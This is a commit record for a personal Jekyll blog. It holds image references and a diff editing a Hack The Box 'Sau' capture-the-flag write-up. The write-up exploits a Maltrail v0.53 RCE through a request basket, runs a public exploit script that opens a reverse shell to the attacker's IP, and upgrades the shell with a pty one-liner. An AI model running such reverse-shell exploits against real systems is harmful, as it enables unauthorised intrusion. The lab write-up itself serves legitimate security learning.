

Before and after one commit to zw1tt3r1on/zw1tt3r1on.github.io, a Jekyll site: the page built from _posts/2024-01-12-htb-sau.markdown, in a window 1280 px wide and 1400 px high, scrolled down 1406 px. Shown: the top 523 px of the window, without its empty margins (107-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
htb sau update

```diff
--- a/_posts/2024-01-12-htb-sau.markdown
+++ b/_posts/2024-01-12-htb-sau.markdown
@@ -33,24 +33,28 @@ We can forward port 80 to this request basket.
 
 ![Alt text](/assets/uploads/htb-sau/2024-01-12 14_05_51.png)
 
-Now we can visit visit http://10.10.11.224:55555/d0kb80v and see that port 80 is running Maltrail v0.53. With some searching, we can see that there is an RCE vulnerability on this https://github.com/spookier/Maltrail-v0.53-Exploit
+Now we can visit visit http://sau.htb:55555/mhvi3fu and see that port 80 is running Maltrail v0.53. With some searching, we can see that there is an RCE vulnerability on this https://github.com/spookier/Maltrail-v0.53-Exploit
 
 
 # Exploitation
 Let us clone this repository, setup a listener on port 111 and run the exploit to get a reverse shell
 
 ---
+
 python3 exploit.py 10.10.14.36 1111 http://sau.htb:55555/mhvi3fu
+
 ---
 
 We can now obtain the user flag at /home/puma/user.txt
 
-![Alt text](/assets/uploads/htb-sau/2024-01-12 14_09_34.png)
+![Alt text](/assets/uploads/htb-sau/2024-01-12 14_11_48.png)
 
-At this point, let us also upgrade our shell to a pty shell using
+At this point, let us also upgrade our shell to a pty shell by running
 
 ---
+
 python3 -c 'import pty; pty.spawn("/bin/bash")'
+
 ---
 
 # Privilege Escalation
```
